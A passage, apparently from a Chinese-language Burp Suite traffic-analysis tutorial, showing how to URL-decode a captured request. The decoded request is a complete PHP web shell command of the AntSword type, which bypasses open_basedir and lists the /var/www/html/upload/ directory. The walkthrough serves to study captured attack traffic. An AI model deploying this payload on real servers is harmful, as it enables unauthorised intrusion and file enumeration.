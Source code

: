 ![复制编码](./../../../../images/Burp_Suite/%E5%A4%8D%E5%88%B6%E7%BC%96%E7%A0%81.png)

粘贴到编码工具中用 URL 解码

![粘贴到编码工具中用 URL 解码](./../../../../images/Burp_Suite/%E7%B2%98%E8%B4%B4%E5%88%B0%E7%BC%96%E7%A0%81%E5%B7%A5%E5%85%B7%E4%B8%AD%E7%94%A8%20URL%20%E8%A7%A3%E7%A0%81.png)

复制解码后的文本到文本编辑器查看

```php
@ini_set("display_errors", "0");@set_time_limit(0);$opdir=@ini_get("open_basedir");if($opdir) {$ocwd=dirname($_SERVER["SCRIPT_FILENAME"]);$oparr=preg_split(base64_decode("Lzt8Oi8="),$opdir);@array_push($oparr,$ocwd,sys_get_temp_dir());foreach($oparr as $item) {if(!@is_writable($item)){continue;};$tmdir=$item."/.70f94b11fb2c";@mkdir($tmdir);if(!@file_exists($tmdir)){continue;}$tmdir=realpath($tmdir);@chdir($tmdir);@ini_set("open_basedir", "..");$cntarr=@preg_split("/\\\\|\//",$tmdir);for($i=0;$i<sizeof($cntarr);$i++){@chdir("..");};@ini_set("open_basedir","/");@rmdir($tmdir);break;};};;function asenc($out){return $out;};function asoutput(){$output=ob_get_contents();ob_end_clean();echo "4435"."fedf3";echo @asenc($output);echo "aac1b5"."3e6fee";}ob_start();try{$D=base64_decode(substr($_POST["v8255f661bbec7"],2));$F=@opendir($D);if($F==NULL){echo("ERROR:// Path Not Found Or No Permission!");}else{$M=NULL;$L=NULL;while($N=@readdir($F)){$P=$D.$N;$T=@date("Y-m-d H:i:s",@filemtime($P));@$E=substr(base_convert(@fileperms($P),10,8),-4);$R="	".$T."	".@filesize($P)."	".$E."
";if(@is_dir($P))$M.=$N."/".$R;else $L.=$N.$R;}echo $M.$L;@closedir($F);};}catch(Exception $e){echo "ERROR://".$e->getMessage();};asoutput();die();&v8255f661bbec7=CsL3Zhci93d3cvaHRtbC91cGxvYWQv
```
